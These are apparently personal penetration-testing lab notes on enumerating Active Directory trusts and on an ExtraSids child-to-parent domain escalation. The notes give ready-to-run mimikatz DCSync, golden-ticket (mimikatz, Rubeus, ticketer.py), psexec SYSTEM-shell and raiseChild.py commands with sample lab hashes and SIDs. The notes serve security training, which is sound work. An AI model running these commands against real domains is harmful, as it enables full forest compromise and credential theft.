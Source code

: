 
# Enumerating Trust Relationships


## activedirectory
- ForestTransitive : mean outside the forest        
- IntraForest : mean inside the forest

```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```

## Powerview
```powershell
Import-Module ./powerview.ps1

Get-DomainTrust
Get-DomainTrustMapping

# check parent domain
Get-NetDomain -Domain INLANEFREIGHT.LOCAL

# Checking Users in the Trusted domains using Get-DomainUser
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

```

## netdom 
```powershell
# Using netdom to query domain trust
netdom query /domain:inlanefreight.local trust

# Using netdom to query domain controllers
netdom query /domain:inlanefreight.local dc

# Using netdom to query workstations and servers
netdom query /domain:inlanefreight.local workstation


```


## BloodHound
- BloodHound to visualize these trust relationships by using the `Map Domain Trusts` pre-built query

```powershell
.\SharpHound.exe -c All --zipfilename ILFREIGHT

bloodhound 
```
![Screenshot 2024-07-08 at 03-30-53 Hack The Box - Academy](https://github.com/kiro6/penetration-testing-notes/assets/57776872/52df1ad6-e669-47dc-a10a-5ba242815a78)


# From child to parent Trusts Abuse
- The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain.
- The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.
- SID history is intended to work across domains, but can work in the `same domain`.


## ExtraSids Attack
- This attack allows for the compromise of a parent domain once the child domain has been compromised.
- if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as a member of this group
- then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

### Steps
- comprmised DC in a child domain
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz or any tool.

### Windows

1) **Obtaining the KRBTGT**
```powershell
mimikatz.exe "lsadump::dcsync /user:LOGISTICS\krbtgt"
```
2) **Get child Domain SID**
```powershell
Get-DomainSID
```
3) **Obtaining Enterprise Admins Group's SID**
```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
4) **Creating a Golden Ticket**
```powershell

# mimikatz
mimikatz.exe "kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt"

# Rubeus
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
5) **Confirming a Kerberos Ticket is in Memory**
```powershell
klist
```

6) Performing a DCSync Attack against parent domain then we can forge golden ticket
```
.\mimikatz.exe "lsadump::dcsync" "/domain:INLANEFREIGHT.LOCAL" "/user:INLANEFREIGHT\lab_adm"
```

### Linux
1) **Obtaining the KRBTGT**
```shell
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
2) **Get child Domain SID**

```shell
# from Impacket toolkit
# the ip of the DC of child domain 
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```
3) **Obtaining Enterprise Admins Group's SID**
```shell
# from Impacket toolkit
# the ip of the DC of the parent DC
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
4) **Creating a Golden Ticket**
```shell
# from Impacket toolkit
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials.
export KRB5CCNAME=hacker.ccache 
```
5) **Getting a SYSTEM shell**
```shell
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

#### we can use on tool to automate the proccess
**using raiseChild.py**

```shell
# from Impacket toolkit
# the ip of parent DC then the child domain user
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
